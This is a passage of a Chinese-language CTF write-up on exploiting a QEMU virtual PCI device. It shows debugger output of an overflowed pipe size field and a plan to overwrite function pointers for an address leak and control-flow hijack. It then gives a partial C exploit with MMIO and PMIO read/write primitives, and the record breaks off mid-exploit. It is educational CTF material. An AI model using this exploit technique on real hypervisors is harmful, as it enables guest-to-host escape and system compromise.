 调试可见`PipeLineState.decPipe[3].size`确实被溢出了：

```c
gef➤  b pipeline_pmio_write
gef➤  i r rdi
rdi            0x55ece5dd4f80	0x55ece5dd4f80
gef➤  p /x *((PipeLineState *)(0x55ece5dd4f80))

decPipe = {\{
    size = 0x0, 
    data = {0x0 <repeats 64 times>}
}, {
    size = 0x0, 
    data = {0x0 <repeats 64 times>}
}, {
    size = 0x0, 
    data = {0xff <repeats 64 times>}
}, {
    size = 0xff, 
    data = {0x0 <repeats 64 times>}
}\}, 
encode = 0x55ece3c634f3, 
decode = 0x55ece3c631bb, 
strlen = 0x7f8a9b4fc450
```

## 利用

利用方法就很明显了，溢出写`PipeLineState.decPipe[3].size`后，即可使用mmio_read/mmio_write越界读写`PipeLineState.decPipe[3].data`后续的函数指针，完成地址信息泄露以及控制流劫持。

```c
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <sys/io.h>

void * mmio;
int port_base = 0xc040; 

void pmio_write(int port, int val){ outl(val, port_base + port); }
void mmio_write(uint64_t addr, char value){ *(char *)(mmio + addr) = value;}
int  pmio_read(int port) { return inl(port_base + port); }
char mmio_read(uint64_t addr){ return *(char *)(mmio + addr); }

void write_block(int idx,int size,int offset, char * data){
    pmio_write(0,idx); pmio_write(4,size);
    for(int i=0;i<strlen(data);i++) { mmio_write(i+offset,data[i]); }
}

void read_block(int idx,int size,int offset, char * data){
    pmio_write(0,idx);
    for(int i=0;i<size;i++){ data[i] = mmio_read(i+offset);}
}

int main(){

    // init mmio and pmio
    iopl(3);
    int  mmio_fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
    mmio         = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);

    // write '/'*87 to block 2
```